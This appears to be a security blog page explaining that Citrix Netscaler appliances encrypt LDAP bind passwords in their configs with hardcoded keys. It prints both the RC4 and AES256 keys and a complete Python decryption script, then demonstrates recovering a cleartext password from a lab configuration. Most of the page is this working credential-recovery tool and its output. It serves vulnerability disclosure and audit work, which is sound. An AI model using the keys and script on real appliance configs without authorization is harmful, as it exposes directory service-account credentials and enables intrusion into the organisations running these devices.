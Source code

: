 ```yaml
---
layout: page
title: Citrix Netscaler config decryption
permalink: /citrix-decrypt/
---
```


## Netscaler

Citrix Netscaler (or whatever they're calling it now) uses hardcoded encryption keys to encrypt at least some passwords stored in the appliance config, most importantly for LDAP bind passwords. As a side note - **the passwords for accessing the appliance itself via CLI or GUI are hashed, not encrypted**. You can still attempt to break these using hashcat but it requires bruteforcing.

However, some other values in the config like LDAP bind passwords are encrypted and can be recovered as by default they are encrypted by hardcoded keys that seem to be common to all Netscalers. These static encryption keys are compliled into the `libnscli90.so` library on the appliance. As of 10.5 this was the RC4 key `2286da6ca015bcd9b7259753c2a5fbc2`. At some point Citrix changed the default key and cipher used to encrypt cleartext values. The default key is now `351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9`, and the appliance now (12.0) uses AES256-CBC instead of RC4. I figured out after a quick bit of RE that the version signifier seems the be the `-encryptmethod` flag, where `ENCMTHD_3` signifies it is using AES256-CBC and the new default key.   


### Additional notes
If you add an old style (RC4) encrypted value to a newer appliance it will decrypt it, then re-encrypt using the new ENCMTHD_3 technique. A small number examples online appear to use the `ENCMTHD_2` value, which is uses the new key and AES256-ECB instead of CBC. 

*If the config line says -kek at the end you'll need to pull key encryption keys off the appliance and do a little more reversing, see [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/) :*


## Decrypting
Here's a quick guide on how to decrypt these LDAP passwords:

1. If there is a `-kek` flag on the config line this means it is using a seperate key to encrypt the password instead of the hardcoded one. In theory you should be able to pull this off a compromised Netscaler but a config alone wont give you the cleartext. See [this blog post for a reference on the Netscaler KEK](https://www.ferroquesystems.com/resource/citrix-adc-security-kek-files/). I will look into doing this at some point and update this post.
2. If there is no `ENCMTHD_` value, it is likely encrypted using the original RC4 method (I'm calling this ENCMTHD_1). You can decode this using the below script. 
3. Otherwise if there is `ENCMTHD_3` or `ENCMTHD_2` and no `-kek` it uses the new AES256-CBC or AES256-ECB encryption method. You can also decode this using the below script.

An example line from a new config may look like `add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf`
indicating is is encrypted with AES256-CBC using the default key.

Extract the ldapBindDnPassword and pass it to the script:
```
# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

## Decrypting script
The below python script will decrypt LDAP and likely similar encrypted values (haven't tested anything else) obtained from the config.
```
#!/usr/bin/python

import base64
from Crypto.Cipher import AES,ARC4
import binascii,sys


BS = 16
unpad = lambda s : s[:-ord(s[len(s)-1:])]

#thanks  https://stackoverflow.com/a/12525165 for crypto snippet
class AESCipher:
    def __init__( self, key ):
        self.key = key

    def decrypt( self, enc, mode ):
        if mode == "ENCMTHD_2":
                cipher = AES.new(self.key, AES.MODE_ECB )
        elif mode == "ENCMTHD_3":
                iv = "\x00" * 16
                cipher = AES.new(self.key, AES.MODE_CBC, iv )

        else:
            print "Invalid mode"
            return False

        return unpad(cipher.decrypt( enc ))


def main():
        #Keys hardcoded into netscaler libnscli90.so
        aeskey = binascii.unhexlify("351CBE38F041320F22D990AD8365889C7DE2FCCCAE5A1A8707E21E4ADCCD4AD9")
        rc4key = binascii.unhexlify("2286da6ca015bcd9b7259753c2a5fbc2")

        if len(sys.argv) == 3:
            ciphertext = sys.argv[1]
            mode = sys.argv[2]

            if mode == "ENCMTHD_3" or mode == "ENCMTHD_2":
                c = AESCipher(aeskey)
                decoded = c.decrypt(binascii.unhexlify(ciphertext),mode)
                if mode == "ENCMTHD_3":
                        print decoded[16:]
                else:
                        print decoded

            elif mode == "ENCMTHD_1": #old rc4 mode
                out_cipher = ARC4.new(rc4key)
                decoded = out_cipher.decrypt(binascii.unhexlify(ciphertext))
                print decoded


if __name__ == "__main__":
        main()
```



#### Runthrough

```
>add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword test12345678secretldappassword -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
Done
>show running
..snip..
add authentication ldapAction LDAP_mgmt -serverIP 192.168.200.130 -serverPort 636 -ldapBase "DC=citrix,DC=lab" -ldapBindDn readonly@citrix.lab -ldapBindDnPassword b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f -encrypted -encryptmethod ENCMTHD_3 -ldapLoginName sAMAccountName -searchFilter "&(memberof=CN=NSG_Admin,OU=AdminGroups,DC=citrix,DC=lab)" -groupAttrName memberOf
..snip..

# python decitrix.py b65f2142d01fe706083173b064c04cfc6b81ab2417d39d63d2b3216176d0e638b89cbca0f1c4294db56b66668f94ff0f ENCMTHD_3
test12345678secretldappassword
```

